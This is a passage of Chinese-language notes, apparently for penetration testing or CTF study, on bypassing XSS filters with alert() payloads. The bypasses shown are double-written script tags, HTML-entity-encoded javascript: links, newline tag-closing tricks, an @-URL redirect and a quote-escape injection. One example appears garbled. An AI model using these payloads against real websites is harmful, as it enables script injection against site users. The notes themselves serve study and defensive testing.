 ##### 双写绕过

```
中间插入式双写绕过
	<scr<script>ipt>alert('xss')</scr</script>ipt>
```

##### 字符编码绕过

采用URL、Base64、html实体等编码

```html
<a href="&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;">yangge</a>
```

编码工具：

- [CTF在线工具](http://www.hiencode.com/) 
- [爱资料工具网](https://www.toolnb.com/) 

##### 换行绕过

1、规避限制标签闭合的场景

```
</style
>
<script>alert(1)</script>
<style
```

2、应对过滤斜杠的场景，但是要闭合注释，所以和使用换行的方式。

```

alert(1)
-->
```



##### @小技巧

```
http://www.sementfault.com@127.0.0.1/cx.html

以@分隔的话前面表示的是用户名和密码，后面表示的是登录的网站和端口，
也可以以表示重定向到第二个网站。
```

##### 转义符

代码将引号过滤成了实体编码，所以可以使用转义符号将先将\转义

```
\"),alert(1)//
```

#### 扫描工具
